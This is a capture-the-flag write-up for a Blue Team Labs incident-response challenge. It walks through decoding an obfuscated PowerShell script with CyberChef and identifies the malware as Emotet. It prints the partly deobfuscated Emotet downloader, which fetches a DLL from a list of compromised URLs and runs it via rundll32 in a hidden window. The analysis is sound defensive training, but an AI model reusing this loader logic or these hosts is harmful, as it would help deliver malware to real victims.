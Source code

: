 ```yaml
---
title: "Malicious PowerShell Analysis BTLO "
date: 2021-10-09T17:30:30
categories:
  - challenge
tags:
  - Blue Team Labs Online
  - Forensics
  - Incident Response
classes: wide
---
```

Continuing the skill-set diversification, a medium rated retired incident response challenge from [Blue Team Labs Online.](https://blueteamlabs.online/home/challenge/7)

>*"Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?*"

The challenge has guided questions to answer to obtain points.

---

First we unzip the challenge:

<img src="/assets/images/malpowerbtlo/mal1.PNG" alt="Unzipping the file.">

Then have a look at the contents, `BTLO.txt` contains information about the challenge source and requests to not distribute. 

Next we look at the actual challenge log `ps_script.txt`:

<img src="/assets/images/malpowerbtlo/mal2.PNG" alt="Looking at the contents.">

Welp.

<h4>De-obfuscation</h4>

It appears to be obfuscated powershell. According to [malware.news](https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509):

>*"PowerShell commands can be logged and script files can be captured for analysis. This gives us a chance to perform after-action forensics to see what the attacker was up to and if they were successful. Unfortunately, attackers don’t like making this easy, so they will often obfuscate and encode commands to deter and slow down analysts."*

The opening line of the `ps_script.txt` log shows:

```powershell
POwersheLL  -w hidden -ENCOD
```
It seems powershell is case-insensitive, and autocompletes flags. 

These commands show that the powershell window was hidden with `-w hidden` and then its commands were encoded into base64 with `-ENCOD` which is encode. 

We throw the output of the `.txt` file into GCHQ's CyberChef and convert from base64:

<img src="/assets/images/malpowerbtlo/mal3.PNG" alt="Converting from base64.">

It still looks pretty difficult to read, searching around the web suggests that we try and remove null bytes from the output like so:

<img src="/assets/images/malpowerbtlo/mal4.PNG" alt="Removing null bytes.">

After removing null bytes these commands are still hard to read, more research suggests the use of CyberChef's `Generic Code Beautify`. From here we try to remove as much as we can through `find/replace` like so:

<img src="/assets/images/malpowerbtlo/mal5.PNG" alt="Using Find/replace to remove seemingly useless items.">

The final result is shown below:

```powershell
sEtMKu[TYPe]01243-FSYsTeMioDIORYrECt;
SeT-iTEMvaRIabLEmBu[TYPe]680345271-fSteMGerManetseRVIcepOintsNAY;
$ErrorActionPreference=SilentlyContinue;
$Cvmmq4o=$Q26L[char]64$E16H;
$J16J=N_0P;
DIrVariabLEMkuVaLUecREAtedIRECTORy$HOME0Db_bh300Yf5be5g0-F[chAR]92;
$C39Y=U68S;
vARiaBLembu-VAlueoNsEcuRITYproTocol=Tls12;
$F35I=I4_B;
$Swrp6tc=A69S;
$X27H=C33O;
$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;
$K47V=R49G;
$B9fhbyv=]anw[3s//admintkcom/wp-admin/L/@]anw[3s//mikegeerinckcom/c/YYsa/@]anw[3//freelancerwebdesignerhyderabadcom/cgi-bin/S/@]anw[3//etdogcom/wp-content/nu/@]anw[3s//wwwhintupcombr/wp-content/dE/@]anw[3//wwwstmarounsnsweduau/paypal/b8G/@]anw[3//wmmcdevelopnet/content/6F2gd/REplACe]anw[3[array]sdswhttp3d[1]sPLIT$C83R$Cvmmq4o$F10Q;
$Q52M=P05K;
foreach$Bm5pw6zin$B9fhbyv
try
&New-ObjectSysTemnEtWEBcLIeNTdoWNlOaDFIlE$Bm5pw6z$Imd1yck;
$Z10L=A92Q;
If&Get-Item$Imd1ycklenGTH-ge35698
&rundll32$Imd1yckControl_RunDLLTOStRiNG;
$R65I=Z09B;
break;
$K7_H=F12U

catch

$W54I=V95O
```

Now lets try and answer the questions!

<h4>What security protocol is being used for the communication with a malicious domain? </h4>

`sEcuRITYproTocol=Tls12` means TLS 1.2.

<h4>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</h4>

This took be quite a bit to figure out, but reading the line where HOME is present made it clearer:

`$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92`

We see `replace uoh [string][char]92`. Looking at char 92 in an ASCII table:

<img src="/assets/images/malpowerbtlo/mal6.PNG" alt="92 = \.">

So we can read `$HOMEUOHDb_bh30UOHYf5be5gUOH` as `\HOME\Db_bh30\Yf5be5g\`. 

<h4>What file is being downloaded (full name)?</h4>

Looking back at our HOME line we see: 

`$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;`

Since we now know that the directory the script creates is `\HOME\Db_bh30\Yf5be5g\` anything after `[StrInG][chAr]92` should be our downloaded file. 

Thus `$Swrp6tcdll` is the downloaded file, dll seems to be the file extension. We can try `Swrp6tc.dll`. 

However this is not correct. If we search for other references to `Swrp6tc` in the logs we find `$Swrp6tc=A69S;`, `$Swrp6tc` is a variable! This should have been obvious from the `$` sign in front of it. 

We instead try `A69S.dll` which is correct!

<h4>What is used to execute the downloaded file?</h4>

Now that we know it is a dll file, we see `&rundll32$Imd1yckControl_RunDLLTOStRiNG;` and see if `rundll32` is the `.exe` used to execute the file. 

It is correct!

<h4>What is the domain name of the URI ending in ‘/6F2gd/’</h4>

Searching through our logs we see the line `wmmcdevelopnet/content/6F2gd`. The URI doesn't make much sense without the `.` which we removed earlier through find/replace. 

Heading back to CyberChef to add them back in we see: `wm.mcdevelop.net/content/6F2gd` meaning the answer is `wm.mcdevelop.net`.

<h4>Based on the analysis of the obfuscated code, what is the name of the malware?</h4>

Googling around for the `A69S.dll` we come across MalwareBazaar's [database](https://bazaar.abuse.ch/sample/23be1cb22c94fe77cea5f8e7fef6710eeef5a23e7e7eb9b9dd53f56d1b954269/) which suggests that the malware name is `Emotet (aka Heodo)`. We try Emotet and are rewarded with challenge complete!

<img src="/assets/images/malpowerbtlo/mal7.PNG" alt="https://blueteamlabs.online/achievement/share/challenge/14446/7">